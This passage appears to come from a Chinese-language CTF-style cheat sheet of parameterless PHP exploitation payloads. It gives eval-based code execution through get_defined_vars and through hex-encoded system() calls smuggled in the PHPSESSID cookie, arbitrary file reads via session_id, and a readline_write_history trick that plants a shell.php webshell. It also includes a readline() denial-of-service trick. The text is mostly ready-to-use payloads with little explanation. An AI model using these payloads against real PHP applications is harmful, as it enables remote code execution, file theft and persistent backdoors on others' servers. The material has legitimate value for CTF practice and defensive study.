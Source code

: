 ### get_defined_vars
get_defined_vars 返回由所有已定义变量所组成的数组，会返回`$_GET,$_POST,$_COOKIE,$_FILES`全局变量的值,返回数组顺序为 get->post->cookie->files
```php
eval(end(current(get_defined_vars())));&jiang=phpinfo();
```

### session_start
```php
show_source(session_id(session_start()));
var_dump(file_get_contents(session_id(session_start())))
highlight_file(session_id(session_start()));
readfile(session_id(session_start())); 或者readgzfile();
修改cookie : PHPSESSID= filename

eval(hex2bin(session_id(session_start())));
抓包传入Cookie: PHPSESSID=("system('命令')"的十六进制)
```

## 文件写入
### readline_write_history
readline_add_history 可以向缓冲区添加内容, 如下的代码可以向缓冲区添加一个 webshell 内容。
```php
print_r(readline_add_history('<?=`exit`;echo`$_GET[1]`;'));
```

借助 readline_write_history 函数可以将这些内容写到文件中。
```php
print_r(readline_write_history('shell.php'));
``` 
上面的 payload 会在当前目录生成一个 shell.php。内容如下：
```php
_HiStOrY_V2_
<?=`exit`;echo`$_GET[1]`;
```

除此之外，我们还可以使用 readline_list_history l来查看当前的缓冲区内容：
```php
print_r(readline_list_history());
```
也可以使用 readline_clean_history 来清除缓冲区
```php
print_r(readline_clean_history());
```

## 拒绝服务

### readline
readline() 满足无参数，可以使得服务卡在终端输入中。


# 绕过过滤
